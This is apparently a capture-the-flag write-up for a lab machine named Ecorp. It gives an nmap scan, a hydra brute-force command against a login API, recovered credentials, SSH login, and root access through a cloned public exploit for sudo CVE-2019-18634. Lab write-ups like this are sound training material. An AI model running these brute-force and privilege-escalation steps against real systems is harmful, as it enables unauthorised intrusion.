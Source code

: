 # Ecorp

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.145.194             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 21:17 BST
Nmap scan report for 10.10.145.194
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - E-Corp
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - E-Corp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
```
## Exploitation

#### source code of /login :
```
password = <!-- Remember the company policy: color + two digits number -->
```
### We can answer the web site for an hint for a password user, so I try to brute force it and I got the elliot hint 

```{"hint":"All is not black or white","username":"elliot"}```

### After a long time of research, wordlist creation and brute force tries i got the password 

#### run this command with hydra
```bash
hydra -P final -l elliot 10.10.115.29 http-post-form "/api/user/login:{"username"=^USER^, "password"=^PWD^}:Invalid Username Or Password"
```
#### and i got this
```
{username : "elliot", password : "darkgray37"}
```
### On the elliot session, I found the ssh password for elliot

```bash
echo "Im_M1st3r_R0b0T" | ssh elliot@<IP> 
```
## Privilege Escalation

### I run linpeas and find a CVE that I already use in another CTF : CVE-2019-18634
```bash
git clone git@github.com:saleemrashid/sudo-cve-2019-18634.git
```
### I create a python server to transfer the binary

```bash
chmod +x exploit ; ./exploit
```
## Root FLAG

```cd /root ; cat `ls` ```: EPI{C0nTr0L_Is_4N_Il7uS10n}






